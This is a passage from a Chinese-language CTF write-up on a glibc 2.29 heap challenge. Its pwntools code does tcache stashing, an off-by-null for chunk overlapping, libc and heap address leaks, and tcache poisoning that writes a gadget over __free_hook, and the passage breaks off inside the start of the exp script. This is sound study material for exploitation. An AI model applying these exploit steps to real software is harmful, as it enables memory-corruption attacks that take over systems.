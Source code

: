 ```python
delete(61)
```

就是這樣，先把 Tcache 填滿，然後依次 free chunk B C A，再把 Tcache 清空，然後申請回 chunk A，部分覆寫，使 fd 指向 fake_chunk。

然後由於 Tcache 的 stash 機制，chunk B C 進入 Tcache，再申請回來的就是 chunk B，部分覆寫使 fd 指向 fake_chunk。

然後申請回 chunk C，進行 off-by-null。

free chunk D，成功實現 chunk overlapping。

然後進行 leak，需要把堆地址和 libc 地址都 leak 出來，leak 的方法有許多，這裏提供一種（這種方法肯定不是最好的方法，但是可以完成 leak 就行）

```
add(0x140,'pass') # 61
show(56)
libc_base = u64(sh.recv(6).ljust(0x8,'\x00')) - libc.sym["__malloc_hook"] - 0x10 - 0x60
log.success("libc_base:" + hex(libc_base))
__free_hook_addr = libc_base + libc.sym["__free_hook"]

add(0x28,'pass') # 69<-56
add(0x28,'pass') # 70<-57
delete(70)
delete(69)
show(56)
heap_base = u64(sh.recv(6).ljust(0x8,'\x00')) - 0x1A0
log.success("heap_base:" + hex(heap_base))
```

然後進行 Tcache poisoning（這裏我被卡了一小會，主要原因是一直想着通過 double free 來實現，這種想法確實挺蠢的，需要注意，Tcache poisoning 的利用只需要控制 next 指針就可以了，double free 往往是實現控制的方法，而不是必須，在本題有更好的方法，就不需要 double free 了）。

```
add(0x28,p64(0) * 2) # 69<-56
add(0x28,p64(0) * 2) # 70<-57
add(0x28,p64(0) * 2) # 71<-58
delete(68)
add(0x60,p64(0) * 5 + p64(0x31) + p64(__free_hook_addr)) # 68
add(0x28,'pass') # 72
## alloc to __free_hook ##
magic_gadget = libc_base + 0x12be97
add(0x28,p64(magic_gadget)) # 73
```

因爲有 chunk overlapping，所以其實挺容易控制 next 指針的，比如通過上面這樣的方法就可以分配到 __free_hook 了。

到這裏就結束了堆上的利用，之後需要進行白名單繞過，具體方法這裏不再贅述，請見《沙箱逃逸》目錄下的《C 沙盒逃逸》

### exp

```python
#!/usr/bin/env python
# coding=utf-8
from pwn import *
context.terminal = ["tmux","splitw","-h"]
context.log_level = 'debug'

#sh = process("./note")
#libc = ELF("/glibc/2.29/64/lib/libc.so.6")
sh = process("./note-re")
libc = ELF("./libc-2.29.so")

def add(size,payload):
    sh.sendlineafter("Choice: ",'1')
    sh.sendlineafter("Size: ",str(size))
    sh.sendafter("Content: ",payload)

def delete(index):
    sh.sendlineafter("Choice: ",'2')
```